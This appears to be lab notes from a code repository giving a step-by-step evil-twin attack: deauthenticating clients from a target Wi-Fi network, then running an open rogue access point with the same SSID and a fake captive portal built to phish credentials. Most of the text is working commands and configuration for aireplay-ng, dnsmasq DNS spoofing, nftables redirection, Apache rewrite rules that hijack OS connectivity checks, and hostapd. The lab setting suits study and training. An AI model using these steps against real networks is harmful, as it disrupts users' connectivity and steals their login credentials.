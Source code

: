 ### Introduction
---
Captive Portals are those web login pages for the free / guest Wi-Fis. 

Attack Methodology - Create a fake Captive Portals to trick clients to disclose their credentials.

### Attack
---
##### Step 1: Enumerating the target AP
Capture traffics & intercept a handshake as usual:
```
sudo airodump-ng -w discovery --output-format pcap wlan0mon
```

```
sudo aireplay-ng -0 0 -a [target bssid] wlan0mon
```

##### Step 2: Building the portal
Using PHP & Apache2:
```
sudo apt install apache2 libapache2-mod-php
```

Save our `index.php` under:
```
/var/www/html/portal
```

##### Step 3: Network Setup
Assign an IP to our wlan0 interface:
```
sudo ip addr add 192.168.87.1/24 dev wlan0 && sudo ip link set wlan0 up
```

Setup a small DHCP server:
```
sudo apt install dnsmasq
```

For the `mco-dnsmasq.conf`:
```
# Main options
# http://www.thekelleys.org.uk/dnsmasq/docs/dnsmasq-man.html
domain-needed
bogus-priv
no-resolv
filterwin2k
expand-hosts
domain=localdomain
local=/localdomain/
# Only listen on this address. When specifying an
# interface, it also listens on localhost.
# We don't want to interrupt any local resolution
# since the DNS responses will be spoofed
listen-address=192.168.87.1

# DHCP range
dhcp-range=192.168.87.100,192.168.87.199,12h
dhcp-lease-max=100

### DNS Spoofing
# This should cover most queries
# We can add 'log-queries' to log DNS queries
address=/com/192.168.87.1
address=/org/192.168.87.1
address=/net/192.168.87.1

# Entries for Windows 7 and 10 captive portal detection
address=/dns.msftncsi.com/131.107.255.255

```

Run `dnsmasq` with the config file:
```
sudo dnsmasq --conf-file=mco-dnsmasq.conf
```

For clients that ignore DNS settings from DHCP, we can force them to redirect with `nftable` rule:
```
sudo apt install nftables
```

```
sudo nft add table ip nat
```

```
sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
```

```
sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53
```

Append the following to the end of apache2 config (`/etc/apache2/sites-enabled/000-default.conf`):
```
# Catch-all rule to redirect other possible attempts
  RewriteCond %{REQUEST_URI} !^/portal/ [NC]
  RewriteRule ^(.*)$ http://192.168.87.1/portal/index.php [L]
```

Enable the two rules:
```
sudo a2enmod rewrite
```

```
sudo a2enmod alias
```

###### CHROME Only:
Duplicate the VirtualHost (80) and change to 443.
```
<VirtualHost *:443>

  ServerAdmin webmaster@localhost
  DocumentRoot /var/www/html

  ErrorLog ${APACHE_LOG_DIR}/error.log
  CustomLog ${APACHE_LOG_DIR}/access.log combined

  # Apple
  RewriteEngine on
  RewriteCond %{HTTP_USER_AGENT} ^CaptiveNetworkSupport(.*)$ [NC]
  RewriteCond %{HTTP_HOST} !^192.168.87.1$
  RewriteRule ^(.*)$ https://192.168.87.1/portal/index.php [L,R=302]

  # Android
  RedirectMatch 302 /generate_204 https://192.168.87.1/portal/index.php

  # Windows 7 and 10
  RedirectMatch 302 /ncsi.txt https://192.168.87.1/portal/index.php
  RedirectMatch 302 /connecttest.txt https://192.168.87.1/portal/index.php

  # Catch-all rule to redirect other possible attempts
  RewriteCond %{REQUEST_URI} !^/portal/ [NC]
  RewriteRule ^(.*)$ https://192.168.87.1/portal/index.php [L]

  # Use existing snakeoil certificates
  SSLCertificateFile /etc/ssl/certs/ssl-cert-snakeoil.pem
  SSLCertificateKeyFile /etc/ssl/private/ssl-cert-snakeoil.key
</VirtualHost>
```

Use the preinstalled snakeoil certificates:
```
sudo a2enmod ssl & sudo systemctl restart apache2
```

##### Step 4: Running the Rogue AP
Set up a rogue AP with the same SSID & channel as the target AP, except without any encryptions.
```
mousepad hostap.config
```

```
interface=wlan0
ssid=MegaCorp One Lab
channel=11

# 802.11n
hw_mode=g
ieee80211n=1

# Uncomment the following lines to use OWE instead of an open network
#wpa=2
#ieee80211w=2
#wpa_key_mgmt=OWE
#rsn_pairwise=CCMP
```

Then run `hostapd`:
```
sudo hostapd -B hostapd.conf
```
